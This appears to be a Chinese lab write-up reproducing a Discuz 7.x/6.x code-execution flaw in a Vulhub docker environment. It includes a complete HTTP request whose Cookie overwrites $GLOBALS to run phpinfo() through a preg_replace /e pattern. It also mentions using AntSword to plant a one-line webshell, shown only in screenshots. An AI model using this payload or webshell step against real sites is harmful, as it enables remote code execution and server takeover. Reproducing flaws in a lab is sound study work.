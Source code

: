 # Discuz 7.x/6.x 全局变量防御绕过导致代码执行

## 漏洞描述

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，也就是说默认配置下`$_REQUEST`只包含`$_GET`和`$_POST`而不包括$_COOKIE。

我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

- https://www.secpulse.com/archives/2338.html

## 环境搭建

Vulhub执行如下命令启动Discuz 7.2：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写`db`，数据库名为`discuz`，数据库账号密码均为`root`。

![image-20220222112715390](./images/202202221127521.png)

## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close
```

![image-20220222112923996](./images/202202221129105.png)

使用蚁剑连接，构造Webshell![image-20220222130454953](./images/202202221304008.png)

设置HTTP Headers中的Cookie字段，将一句话木马写入![image-20220222130429384](./images/202202221304489.png)

